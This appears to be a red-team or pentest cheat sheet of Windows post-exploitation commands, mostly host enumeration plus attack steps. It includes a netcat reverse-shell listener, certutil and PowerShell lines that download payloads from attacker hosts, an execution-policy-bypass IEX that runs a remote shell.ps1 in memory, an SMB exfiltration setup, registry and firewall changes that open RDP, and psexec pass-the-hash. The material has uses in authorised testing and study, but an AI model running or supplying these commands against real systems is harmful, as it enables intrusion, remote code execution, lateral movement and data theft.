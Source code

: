 ```yaml
---
title: Windows Commands 
---
```


## Reverse Shell

https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

nc -lvp 4444

## Windows Commands

Find installed patches, architecture, OS version
```cmd
systeminfo
```
Machine name
```cmd
hostname
```
What is my username?
```cmd
whoami
```
What users/localgroups are on the machine?
```cmd
net users
net localgroups
```
More info about a specific user. Check if user has privileges
```cmd
net user <user1>
```
User privilege
```cmd
whoami /priv
```
Disk Drive
```cmd
wmic logicaldisk get caption,description,providername`
```
Download file in the target machine
```cmd
certutil -urlcache -f http://[attackerIp]/payload.exe payload.exe
```
File and directory permission
```cmd
cacls /Desktop/test.txt
accesschk.exe -qwsu "<user>" "<path>"
accesschk.exe -qwsu "Users" *
```
wmic service filter
```cmd
wmic service where "name= 'OpenSSHd'" get name,pathname,status
```
List of Service
```cmd
wmic service get Caption,StartName,State,pathname
```
List of Process
```cmd
wmic process get ProcessID,ExecutablePath
```
Network
```cmd
ipconfig /all
route print
arp -A
```
Port forward & connect form linux to SMB 
```cmd
# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```
```cmd
winexe -U [user]%[password] //[IP] "cmd.exe"
```
> Note: in ssh_config uncomment PermitRootLogin yes

Firewall Configuration
```cmd
netsh firewall show state
netsh firewall show config
```
Evarioment Variable
```cmd
set
```
How well patched is the system?
```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
Loading Powershell scripts directly in memory
```cmd
powershell.exe -ep Bypass -c "IEX ((new-object net.webclient).downloadstring('http://10.0.1.14:80/shell.ps1'))"
```
Downlaod file with Powershell 
```cmd
powershell.exe -ep Bypass -c iex ((New-Object System.Net.WebClient).DownloadFile("https://attacker/payload.exe", "C:\Users\user1\payload.exe"))
```
SMB Exfiltration
```cmd
kali_op1> impacket-smbserver -smb2support kali `pwd`
MD-Wind> net use \\10.10.14.14\test
```
Information about process
```cmd
tasklist /v
```
Run a command as another user
```cmd
runas /user:<localmachinename>\administrator cmd
```
Process info
```cmd
wmic process get Caption,Commandline,Processid
```
Service info
```cmd
wmic service get name,status,startname,pathname
```
Process Owner 
```cmd
tasklist /V /FI "IMAGENAME eq explorer.exe"
wmic process where "name='taskeng.exe'" call GetOwner
```
Process List 
```cmd
powershell.exe Get-Process  | Select-Object Id,Name,Path
```
Current Connection
```cmd
netstat -lpno
```
Start and stop a service
```cmd
net start/stop servicename
```
Installed applications
```cmd
psinfo.exe -s
```
UAC is enable?
```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
Content of a file
```cmd
more file.txt
```
RDP from Kali
```cmd
rdesktop -u user -p password <IP> -g 95% 
```
Enable rdp
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
```cmd
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
Psexec

Password
```cmd
python3 psexec.py user:password@<ip>
```
```cmd
python3 psexec.py -hashes LMHASH:NTHASH user@<ip>
```
